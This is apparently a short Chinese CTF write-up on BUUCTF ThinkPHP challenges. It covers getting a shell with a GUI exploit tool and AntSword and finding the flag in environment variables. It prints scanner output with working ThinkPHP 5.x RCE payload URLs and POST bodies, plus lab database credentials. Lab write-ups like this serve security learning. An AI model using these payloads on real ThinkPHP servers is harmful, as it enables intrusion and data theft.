 ```yaml
---
layout: post
title:  RCE漏洞利用
date:   2022-05-31 00:08:01 +0300
image:  2022-05-31-wedding.jpg
tags:   [web,php,RCE]
---
```


## [ThinkPHP]5-Rce

使用Thinkphp GUI工具

![]({{site.baseurl}}/img/rce/2022-05-31-5-rce.jpg)

点击GetShell

![]({{site.baseurl}}/img/rce/2022-05-31-5-rce-getshell.jpg)

使用蚁剑连接

## [ThinkPHP]5.0.23-Rce

蚁剑连接后

```assembly
env
```

在环境变量中找到flag

## [ThinkPHP]IN SQL INJECTION

使用工具打发现有3个洞

```assembly
检测所有漏洞中......
[-] 不存在ThinkPHP 5.0 RCE
[+] 存在ThinkPHP 5.0.10 construct RCE
Payload: http://node4.buuoj.cn:27799/?s=index Post: _method=__construct&method=get&filter[]=phpinfo&get[]=-1
[+] 存在ThinkPHP 5.0.22/5.1.29 RCE
Payload: http://node4.buuoj.cn:27799/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
[+] 存在ThinkPHP 5.0.23 RCE
Payload: http://node4.buuoj.cn:27799/?s=captcha&test=-1 Post: _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
[-] 不存在ThinkPHP 5.0.24-5.1.30 RCE
[-] 不存在ThinkPHP 3.x RCE
[+] 存在ThinkPHP 5.x 数据库信息泄露
Payload: username:root hostname:mysql password:root database:cat
[-] 不存在ThinkPHP 3.x Log RCE
[-] 不存在ThinkPHP 5.x 日志泄露
[-] 不存在ThinkPHP 3.x 日志泄露
```

